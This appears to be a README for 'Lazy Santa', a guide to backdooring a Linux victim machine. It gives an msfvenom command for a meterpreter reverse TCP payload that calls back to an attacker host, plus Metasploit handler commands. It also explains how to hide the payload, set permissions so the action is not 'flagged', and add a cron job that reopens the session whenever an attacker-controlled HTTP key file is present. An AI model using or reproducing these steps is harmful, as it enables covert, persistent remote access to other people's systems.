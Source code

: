 # Lazy Santa

## Setting up the Payload

to make things nice and easy, we will be setting up a meterpreter right from the get go.  I have included an example payload, but you can make modifications as you see fit.  

```
msfvenom -p linux/x86/meterpreter_reverse_tcp lhost=192.168.98.160 lport=4444 -f elf -o coming_home.elf
```
Obviously you will need to change the `lhost` other than that it should work out of the box. 


## Setting up Metasploit

In metasploit run the following commands individually:

```
use exploit/multi/handler
```
```
set payload linux/x86/meterpreter_reverse_tcp
```

Once all the options are tweaked for your set up use
```
run 
```
or
```
exploit
```
to get everything in motion.  Now at this point you will just be waiting for the call home from the victim machine.

Remember that if you want to re-establish the connection you will need to leave the "key file" in the http server that you specified in the cron job.  If you don't want the victim to try and reconnect then make sure that you remove the key file or stop the http server to cause an other than `200` HTTP response code.  


## Getting the Victim Machine Ready

### The Payload 

The first thing you will need to do is get the payload on the victim machine.  Once you have done that you will need to make sure that is can be executed.  The best way to do this is you use the `u+x` chmod flag.  Otherwise you may be prompted for a sudo password.  By only making the current user be able to run it we can avoid that action getting denied and flagged.  

Use this: 
```
chmod u+x [file_name]
```

Next hide this payload somewhere where it will not be stumbled uppon unless someone is looking for it.  Be sure to specify the file path in the script that the cron job will call.  You could also hide the script that the cron job calls in the same location as the payload.  

### The Cron Job

Essentially we are creating a login bomb.  When certain criteria are met then a meterpeter session is opened. As such, you could theoretically set the shell up around any trigger but for ease we will use cron to just check in periodically.  

For adding this all to the cron tab I have found to have the best success using ssh instead of dropping into a shell from meterpreter.  There are definitely other ways, but if it works....

Also, I rarely try and set up cron jobs by hand.  Take it easy on yourself and use a cron job calculator to get everything just right.  Besides, you may only have one shot to get this right before your window of oppurtunity closes. Nailed it the first time. [This site is useful for that purpose.](https://crontab.guru/)

Though if you just want this to run every minute it is pretty easy to remember:

```
* * * * /path/to/file/
```

That is pretty much it.  Once the cron job is set then it will check at the specified time if the remote resource is available.  If it is, then it open the meterpreter session.  If not, then it waits until the next time, working on a loop until the logic is met.








